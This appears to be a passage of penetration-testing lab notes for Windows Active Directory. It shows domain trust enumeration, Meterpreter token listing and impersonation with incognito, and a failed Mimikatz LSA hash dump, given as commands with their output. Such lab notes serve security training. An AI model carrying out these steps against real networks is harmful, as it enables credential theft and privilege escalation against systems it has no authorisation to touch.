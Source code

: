 ```bash

# Extract domain credentials
C:\> dcdiag
C:\> nltest /domain_trusts
```

### Scenario 3: Real-World Token Enumeration
```bash
# Meterpreter session as NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

# Load incognito for token manipulation
meterpreter > load incognito
Loading extension incognito...Success.

# List available tokens
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
Font Driver Host\UMFD-0
Font Driver Host\UMFD-1
MARVEL\fcastle            # <- Domain user token
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
Window Manager\DWM-1

# Token Priority Analysis:
# 1. MARVEL\fcastle - Domain user token (investigate further)
# 2. NT AUTHORITY\SYSTEM - Already have this
# 3. Service tokens - Limited privileges
```

### Scenario 4: Post-Impersonation Actions and Limitations
```bash
# After successful token impersonation as marvel\fcastle
meterpreter > impersonate_token MARVEL\\fcastle
[+] Delegation token successfully impersonated (user: MARVEL\fcastle)

meterpreter > shell
C:\Windows\system32> whoami
marvel\fcastle

# Attempt to dump LSA hashes with Mimikatz
PS C:\> Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /inject" exit' -Computer HYDRA.marvel.local

# Result: Access Denied Error
Access is denied. For more information, see the about Remote Troubleshooting Help topic.

# Analysis: 
# - Token impersonation successful
# - User fcastle lacks administrative privileges 
# - Cannot dump LSA hashes
# - Need further privilege escalation or find admin tokens
```
